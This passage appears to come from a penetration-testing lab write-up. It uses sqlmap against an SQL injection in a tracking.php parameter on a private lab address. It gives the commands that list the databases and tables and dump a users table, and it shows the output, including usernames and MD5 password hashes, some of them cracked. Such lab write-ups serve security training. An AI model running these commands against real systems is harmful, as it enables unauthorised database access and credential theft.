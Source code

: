 **Actions:**

* Try sqlmap
* Scan new found directory with Gobuster/Dirbuster
{% endhint %}

{% tabs %}
{% tab title="sqlmap \(discover databases\)" %}
```bash
sqlmap -u 'http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/tracking.php?id=6' --dbs
```
{% endtab %}

{% tab title="Output sqlmap dbs" %}
```bash
[06:13:35] [INFO] fetching database names
available databases [2]:
[*] footracking
[*] information_schema
```
{% endtab %}

{% tab title="sqlmap \(footracking tables\)" %}
```
sqlmap -u 'http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/tracking.php?id=6' -D footracking --tables
```
{% endtab %}

{% tab title="Output footracking tables" %}
```
Database: footracking
[2 tables]
+----------------+
| telemetry_test |
| users          |
+----------------+
```
{% endtab %}

{% tab title="sqlmap footracking.users dump" %}
```
sqlmap -u 'http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/tracking.php?id=6' -D footracking -T users --dump
```
{% endtab %}

{% tab title="Output" %}
```
Database: footracking                                                                                                                                                                                   
Table: users
[4 entries]
+----+-----+-------------------------------------------+-----------+
| id | adm | password                                  | username  |
+----+-----+-------------------------------------------+-----------+
| 1  | yes | c5d71f305bb017a66c5fa7fd66535b84          | fcadmin1  |
| 2  | yes | 14d69ee186f8d9bbeddd4da31559ce0f          | fcadmin2  |
| 3  | no  | 827ccb0eea8a706c4c34a16891f84e7b (12345)  | tracking1 |
| 4  | no  | e10adc3949ba59abbe56e057f20f883e (123456) | tracking2 |
+----+-----+-------------------------------------------+-----------+

```
{% endtab %}
{% endtabs %}
